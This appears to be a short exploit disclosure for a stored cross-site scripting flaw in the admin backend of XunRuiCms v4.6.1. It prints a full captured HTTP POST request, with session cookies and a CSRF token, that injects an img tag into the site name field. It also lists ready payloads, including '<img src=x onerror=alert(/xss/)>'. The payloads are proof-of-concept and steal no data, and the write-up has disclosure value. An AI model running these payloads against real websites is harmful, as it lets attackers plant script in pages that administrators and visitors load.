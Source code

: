 # XunRuiCms Stored XSS (Authenticated)
#### Exploit Title: XunRuiCms Stored XSS (Authenticated) 
#### Version：Xunrui CMS Public Edition v4.6.1
#### Google Dork: N/A
#### Date: 09/21/2023
#### Tested on：Apache2.4.39，Mysql5.7.26，PHP7.4.3
#### Software Link: https://www.xunruicms.com/down.php

#### Description：XunRuiCms has a storage type xss vulnerability when editing the project name in the project settings tab after logging into the management backend.

#### Payload used:
```
POST /admin6318a5072e99.php?c=site_config&m=index&page=0 HTTP/1.1
Host: 192.168.1.3
Content-Length: 443
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.3
Referer: http://192.168.1.3/admin6318a5072e99.php?c=site_config&m=index
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-TW;q=0.8,zh;q=0.7
Cookie: debug-view=show; debug-bar-tab=ci-database; debug-bar-state=minimized; xunruicms_a5e842945753ffb75ab7ca63139e9dc6=vjdmkfi37qmcrqgd9ctqpdo36dva028k; a5e842945753ffb75ab7ca63139e9dc6_member_uid=1; a5e842945753ffb75ab7ca63139e9dc6_member_cookie=030e05f644709f5674507604a947c7ef
Connection: close

is_form=1&is_admin=1&is_tips=&csrf_test_name=ce1a1cdb6e1e2870bc90e07fb0d624e2&page=0&data%5BSITE_INDEX_HTML%5D=0&data%5BSITE_CLOSE%5D=0&data%5BSITE_CLOSE_MSG%5D=%5Bxss_clean%5D&data%5BSITE_NAME%5D=%E6%88%91%E7%9A%84%E9%A1%B9%E7%9B%AE%3CImg+src%3Dhttp%3A%2F%2F127.0.0.1%3A8000%2Finfo.html%3E&data%5BSITE_LANGUAGE%5D=zh-cn&theme=0&data%5BSITE_THEME%5D=default&data%5BSITE_TEMPLATE%5D=default&data%5BSITE_TIMEZONE%5D=8&data%5BSITE_TIME_FORMAT%5D=
```

#### Example：

1、Log in to the management backend

2、
Find the project settings and edit the project name, write in <img src=http://127.0.0.1:8000/info.html> or <img src=x onerror=alert(/xss/)>.
![2.png](./2.PNG)


<br />
3、Successfully accessed！

![22.png](./22.PNG)





















